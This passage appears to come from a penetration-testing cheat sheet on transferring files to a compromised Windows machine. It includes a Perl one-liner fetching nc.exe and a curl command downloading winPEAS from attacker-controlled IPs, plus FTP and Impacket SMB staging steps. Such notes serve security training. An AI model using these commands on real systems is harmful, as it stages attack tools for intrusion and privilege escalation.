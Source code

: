 - Download a file using PERL:
  `perl -le "use File::Fetch; my $ff = File::Fetch->new(uri => 'http://10.10.10.10/nc.exe'); my $file = $ff->fetch() or die $ff->error;"`

#### Uploading Files with curl

- Sometimes a Windows machine will have development tools like CURL installed. Check for CURL: `curl -v`
  `curl 10.10.14.23:8080/winPEASEany.exe -o winpeas.exe`

#### Uploading Files with FTP

After running the python ftp lib on (`python -m pyftpdlib -p 21`) on Kali, you can try connecting using the windows FTP client:

  ```CMD
  C:\Users\pwnd>ftp 10.10.10.10
  Connected to 10.10.10.10
  220 pyftpdlib 1.5.3 ready.
  User (10.10.15.31:(none)): anonymous
  331 Username ok, send password.
  Password: anonymous

  230 Login successful.                                                                                                                      
  ftp> ls                                                                                                                                 
  dir                                                                                                                                       
  421 Active data channel timed out.
  ```

If you are seeing a 421 timeout when you try to send a command it is likely because your connection is being blocked by the windows firewall. The Windows command-line ftp.exe supports the FTP active mode only. In the active mode, the server has to connect back to the client to establish data connection for a file transfer.

You can check to see if the remote machine has Winscp.exe installed. Winscp is capable of connecting to an FTP server using passive mode and will not be blocked by the firewall.

#### Transfering Files via SMB using Impacket

Kali comes loade with the incredible Impacket library which is a swiss army knife of network protocols... just Awesome. You can easily create a SMB share on your local Kali machine and move files between Kali and Windows with ease. <https://github.com/SecureAuthCorp/impacket>

- First we will setup the SMB Share on Kali like so:

  ```shell
  root@kali:~# impacket-smbserver root /root/Desktop
  Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

  [*] Config file parsed
  [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
  [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
  [*] Config file parsed
  [*] Config file parsed
  [*] Config file parsed
  ```
